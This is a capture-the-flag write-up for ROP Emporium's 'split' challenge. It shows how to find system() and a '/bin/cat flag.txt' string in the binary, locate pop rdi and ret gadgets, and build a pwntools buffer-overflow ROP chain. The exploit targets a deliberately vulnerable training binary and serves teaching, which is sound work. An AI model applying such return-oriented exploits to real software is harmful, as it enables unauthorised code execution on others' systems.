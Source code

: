 # SPLIT

[split](https://ropemporium.com/challenge/split.html)

Unlike the ret2win challenge, we no longer have a convenient `ret2win` function to return into. However, we do have access to a very powerful function called `system` that is dynamically linked by the `split` program from libc at this location: 0x400560.

```
$ rabin2 -i ./split
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00000000 WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf
```

According to the [manpage](https://man7.org/linux/man-pages/man3/system.3.html) for `system()`, it runs a shell command as a fork. This command must be passed as a string as the first argument to this function.

But first, what command should we pick to print out the flag?

The `split` webpage provides a helpful hint to find a string `"/bin/cat flag.txt"` that is present in the `split` binary. We can find the location of this string using the following command:

```
$ rabin2 -z ./split 
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

If we take a look at this line of output from this command, we find the important string we need. We can then save its virtual address (0x601060) for use later.

Let's take stock of what we have now. We have the address of `system()` (0x400560) and the address of the `"/bin/cat flag.txt"` string (0x601060). We already know how to return to a function that takes no arguments in `ret2win`, but how do we pass one argument to a function in return oriented programming?

Based on what I've read on *Wikipedia*, x86_64 Linux uses the [System V AMD64 ABI](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI) to pass arguments to functions. From the table, we can see that the first argument should be stored in the `rdi` register. This means that we have to somehow get 0x601060 into the `rdi` register before we call `system()`. This requires the use of a gadget that pops `0x601060` into `rdi` from the stack.

```
$ ROPgadget --binary ./split | grep "pop rdi"  
0x00000000004007c3 : pop rdi ; ret
```

Don't forget the gadget for returning to a function.

```
$ ROPgadget --binary ./split | grep ": ret$"
0x000000000040053e : ret
```

Now that we have found an appropriate gadget, we can now formulate our buffer overflow. Remember, the location of the saved RIP is still 0x28 (40) bytes from the start of the buffer.

```python
# ./win.py
from pwn import *
...
attack = b"A"*0x28 # garbage
attack += p64(0x4007c3) # pop rdi gadget
attack += p64(0x601060) # location of /bin/cat flag.txt
attack += p64(0x40053e) # ret gadget
attack += p64(0x400560) # system()
io.sendline(attack)
...
```

And that's it for this challenge.